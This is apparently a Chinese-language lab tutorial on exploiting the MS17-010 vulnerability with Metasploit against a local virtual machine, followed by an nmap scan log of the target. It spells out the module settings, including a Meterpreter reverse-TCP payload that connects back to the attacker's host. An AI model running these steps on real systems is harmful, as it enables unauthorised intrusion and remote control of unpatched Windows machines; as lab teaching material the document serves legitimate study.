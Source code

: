 如上图所示：可以看到有auxiliary（辅助）模块和exploit（攻击）模块

可以先使用辅助扫描模块进行测试，如下图：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595416256577-9a7c7742-dea3-4fa1-9b09-72c6727d2892.png)

可以看到，靶机容易遭受到MS17-010漏洞的攻击，接下来使用攻击模块进行攻击：

> 选择攻击模块时注意选择合适的版本，有些版本使用于win8以上
>

设置流程如下：

set payload ：设置payload，这里用set payload windows/x64/meterpreter/reverse_tcp

> 要选用其他payload可以使用show payloads查看适合要攻击的目标主机的payload
>

show options ：使用该命令会列出使用当前模块所需呀配置的参数

set RHOSTS（rhosts） 目标主机地址 ：该命令会设置好要攻击的目标主机地址

set LHOST（lhost） 攻击机地址 ：该命令设置攻击机的地址，使目标主机回连至攻击机

set LPORT（lport） 回连的端口 ：该命令设置目标主机回连至攻击机的端口，默认为4444

run、exploit：开始攻击

这里攻击端的IP地址为：192.168.11.150

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595416589945-d05b181c-a891-4608-8649-86426a064fad.png)

攻击端设置如下：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595416803556-93d6d715-5867-4888-8105-3649a0f6af1c.png)

输入run以进行攻击：

![](https://cdn.nlark.com/yuque/0/2020/png/574026/1595416847854-81c7b9b0-fa6e-4887-a7cc-5c6f350a280d.png)

出现WIN就说明攻击成功，详细的日志信息如下：

```powershell
ali@kali:~/Desktop$ nmap -sS 192.168.11.131
You requested a scan type which requires root privileges.
QUITTING!
kali@kali:~/Desktop$ sudo nmap -sS 192.168.11.131
[sudo] kali 的密码：
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-22 07:01 EDT
Nmap scan report for 192.168.11.131
Host is up (0.00043s latency).
Not shown: 987 closed ports
PORT      STATE SERVICE
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
554/tcp   open  rtsp
2869/tcp  open  icslap
5357/tcp  open  wsdapi
10243/tcp open  unknown
49152/tcp open  unknown
49153/tcp open  unknown
49154/tcp open  unknown
49155/tcp open  unknown
49156/tcp open  unknown
49157/tcp open  unknown
MAC Address: 00:0C:29:45:1C:98 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.90 seconds
kali@kali:~/Desktop$ ping 192.168.11.131
```